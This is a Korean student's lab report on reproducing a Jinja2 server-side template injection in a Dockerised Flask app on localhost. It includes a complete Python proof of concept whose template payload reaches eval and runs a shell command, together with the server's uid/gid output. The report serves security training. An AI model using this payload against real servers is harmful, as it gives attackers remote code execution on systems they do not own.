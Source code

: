 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

과제에서 제공받은 깃허브 링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 이 취약점을 실습해보기 위하여 해당 깃허브 링크를 fork하여 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행

다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
<br/>
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
<docker-compose up -d>명령어를 통하여 Flask 서버를 실행하였다.
![docker-compose up -d 실행결과](./1.png)
<br/>
### 1.4 브라우저에서 flask 서버 접속
브라우저에서 서버를 접속하여 결과를 확인해보았다.
![서버 접속 실행결과](./2.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인

### 1.5 출력 결과 분석
이건 서버가 내가 입력한 값(ex. {7*7} / {5*5})을 받아서 내부에서 Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 입력된 수식을 실제로 계산한 결과를 출력하여 보여주는 것을 확인하였다. 이는 서버가 사용자의 입력을 문자열로 인식하여 처리하는 것이 아닌 python연산처럼 처리하고 실행한 것을 의미한다. 
<br/>
이는 서버의 템플릿 엔진이 외부의 사용자 입력을 검증하지 않고 실행하여 발생한 것으로 위의 Flask 서버에는 SSTI 취약점이 존재한다. 이러한 단순 수식 계산에서 더 나아가 시스템 명령어를 실행할 수 있는지를 확인해보기 위하여 이어지는 부분에서 공격 코드를 작성하여 실습을 진행해보고자 한다.

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>
### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```

![vs code로 poc.py작성](./3.png)

### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
<br/>
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻
<br/>
### 2.4 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음
<br/>
## 3. 결론
poc.py 스크립트를 통하여 SSTI(Server Side Template Injection) 취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드<`__import__("os").popen("id").read()` 명령어를 실행하는 코드>를 삽입하였다.
따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups 정보를 알려주었다. 
이 실습을 통하여 flask 서버의 SSTI 취약점을 통하여 원격 코드 실행(RCE, Remote Code Execution)수준의 제어가 가능함을 확인할 수 있었으며 공격자는 name 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도할 수 있었다. 즉, 단순 수식 평가뿐 아니라 시스템 명령어인 id같은 명령어까지 실행할 수 있어 서버의 중요 정보인 UID, GID 정보가 노출되는 SSTI 취약점을 확인해 보았다.
이러한 취약점의 경우**원격 명령 실행(RCE)** 으로 이어질 수 있기에 심각한 보안 위협이며, 이에대한 조치가 필요함을 느꼈다.
